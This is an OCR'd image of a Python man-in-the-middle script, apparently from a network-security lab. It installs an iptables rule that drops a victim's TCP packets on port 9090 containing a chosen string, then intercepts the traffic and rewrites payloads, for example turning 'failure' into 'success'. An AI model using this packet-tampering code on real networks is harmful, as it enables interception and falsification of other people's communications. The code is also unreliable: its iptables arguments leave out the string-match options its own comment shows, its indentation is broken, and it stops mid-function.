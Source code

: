   ```python
    # Your drop rule -> because we need to drop the packets sent from the victim, and then send only our new crafted packets.
    iptables_cmd = [
        "iptables",
        "-A", "FORWARD",
        "-s", args.src, # source ip
        "-p", "tcp", # the used protocol
        "--dport", "9090", # the listening port
        "--string", args.find, # string to be replaced
        "-j", "DROP"
    ]


    # excuting this command
    # iptables -A FORWARD -s 10.9.0.5 -p tcp --dport 9090 -m string --string findString --algo kmp -j DROP
    try:
        subprocess.run(iptables_cmd, check=True)
        print(f"[+] iptables rule added to drop original packets containing: {args.find}")
    except subprocess.CalledProcessError as e:
        print(f"[!] Failed to add iptables rule: {e}")



    # --- Convert inputs to bytes ---
    FIND = args.find.encode()
    REPLACE = args.replace.encode()
    SRC_IP = args.src

    # --- Enforce same length or pad if shorter ---
    if len(REPLACE) != len(FIND):
        if len(REPLACE) < len(FIND):
            REPLACE = REPLACE.ljust(len(FIND), b' ')  # pad with spaces
            print(f"[!] REPLACE padded: {REPLACE}")
        else:
            print("[!] ERROR: --replace is longer than --find, TCP stream would break.")
            exit(1)

  # ensure that the script is running by showing some messages on the console
  print("[*] MITM Packet Modifier Running...")
  print(f"    Filtering packets from {SRC_IP}")
  print(f"    Replacing: {FIND} -> {REPLACE}")

  # --- Packet Interception and Modification ---
  def spoof_pkt(pkt):
    '''
       this function will be excuted on recieving any **pkt**.
       it is responsible for modifying the packets which contains failure! to contain success.


    '''
      if pkt.haslayer(IP) and pkt.haslayer(TCP) and pkt[IP].src == SRC_IP:
          if pkt[TCP].payload:
              data = pkt[TCP].payload.load

              if FIND in data:
                  print(f"[+] Intercepted packet with data: {data}")

                  # Replace the pattern
                  newdata = data.replace(FIND, REPLACE)

                  # Build new packet
                  newpkt = IP(bytes(pkt[IP]))
  ```